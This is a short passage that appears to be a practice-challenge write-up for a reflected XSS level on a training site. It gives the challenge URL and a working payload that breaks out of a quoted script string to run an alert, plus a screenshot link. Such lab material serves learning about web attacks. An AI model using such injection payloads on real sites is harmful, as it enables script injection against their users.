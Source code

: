 
Chall Url: http://www.zixem.altervista.org/XSS/10.php?name=
Payload: http://www.zixem.altervista.org/XSS/10.php?name=%27);alert`1337`//
![](https://user-images.githubusercontent.com/25671488/61406789-2eaeaa80-a8fa-11e9-9844-6b39dcafaa32.png)
